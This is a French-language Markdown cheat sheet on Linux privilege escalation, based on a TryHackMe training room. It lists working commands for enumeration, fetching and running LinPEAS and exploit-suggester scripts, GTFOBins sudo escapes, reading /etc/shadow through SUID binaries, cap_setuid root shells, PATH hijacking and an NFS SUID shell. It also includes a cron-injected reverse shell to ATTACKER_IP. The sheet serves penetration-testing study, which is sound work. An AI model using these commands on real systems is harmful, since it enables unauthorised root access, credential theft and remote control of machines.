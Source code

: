 # 🧗‍♂️ Linux Privilege Escalation Cheat Sheet

Basée sur le parcours [TryHackMe - Linux Privilege Escalation](https://tryhackme.com/room/linprivesc), cette cheat sheet décrit les principales méthodes d’**élévation de privilèges sur Linux**, avec une **explication claire** pour chaque type d’exploitation.

---

## 🧭 1. Énumération initiale

> 🎯 **But :** Collecter un maximum d’infos sur le système, l’utilisateur et l’environnement pour identifier des failles potentielles.

```bash
hostname
uname -a
cat /etc/issue
python --version
id
```

---

## 🧰 2. Outils d'automatisation

> 🎯 **But :** Gagner du temps dans la détection des configurations faibles ou vulnérables.

### LinPEAS

```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

### LinEnum

```bash
wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh
```

### Linux Exploit Suggester

```bash
wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh
chmod +x linux-exploit-suggester.sh
./linux-exploit-suggester.sh
```

---

## 🧨 3. Exploits du noyau Linux

> 🎯 **But :** Exploiter des failles connues du noyau Linux (ex : Dirty Cow) pour obtenir un shell root.

```bash
uname -r
searchsploit 3.13.0
```

Compiler et exécuter un exploit local :

```bash
gcc exploit.c -o exploit
./exploit
```

---

## 🔐 4. Sudo & GTFOBins

> 🎯 **But :** Utiliser les permissions `sudo` accordées à l'utilisateur pour exécuter des commandes en tant que root sans mot de passe.

```bash
sudo -l
```

Exemples de contournement :

```bash
sudo find . -exec /bin/sh \; -quit
sudo nmap --interactive  # puis !sh
sudo less /etc/shadow
```

Consulter : https://gtfobins.github.io/

---

## 🧱 5. Fichiers SUID

> 🎯 **But :** Exploiter des binaires exécutés avec les privilèges de leur propriétaire (souvent root).

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```

Utiliser un binaire SUID comme escalade :

```bash
./base64 /etc/shadow | base64 --decode
```

---

## 🧩 6. Capabilities

> 🎯 **But :** Exploiter des fichiers ayant des capacités spéciales (ex : `cap_setuid` pour exécuter en tant que root).

```bash
getcap -r / 2>/dev/null
```

Exemple :

```bash
./view -c ':py3 import os; os.setuid(0); os.execl("/bin/sh", "sh", "-c", "reset; exec sh")'
```

---

## 🕒 7. Cron Jobs

> 🎯 **But :** Modifier un script ou binaire exécuté régulièrement par `cron` en tant que root.

```bash
cat /etc/crontab
```

Insérer un shell inversé :

```bash
echo 'bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1' > /path/to/script.sh
```

---

## 🧬 8. Variables d'environnement & PATH

> 🎯 **But :** Détourner une commande appelée sans chemin absolu dans un script root en manipulant la variable `$PATH`.

```bash
echo "cat /home/user/flag.txt" > /home/user/fakecmd
chmod +x /home/user/fakecmd
export PATH=/home/user:$PATH
```

---

## 📂 9. NFS & no_root_squash

> 🎯 **But :** Utiliser un partage NFS mal configuré (avec `no_root_squash`) pour exécuter un fichier en tant que root.

```bash
cat /etc/exports
mount -o rw target:/share /mnt
```

Compiler un SUID shell :

```c
echo '#include <stdlib.h>\nint main() { setuid(0); system("/bin/bash"); return 0; }' > shell.c
gcc shell.c -o shell
chmod +s shell
```

---

## 🧠 10. Conseils pratiques

- Utilise `searchsploit` pour chaque version du noyau
- Consulte GTFOBins pour chaque commande que tu peux utiliser
- Essaie `linpeas.sh` systématiquement : ça détecte tout en quelques minutes

---

📁 À ajouter dans `docs/cours/privilege-escalation/linux.md` ou `cheatsheets/privesc-linux.md`
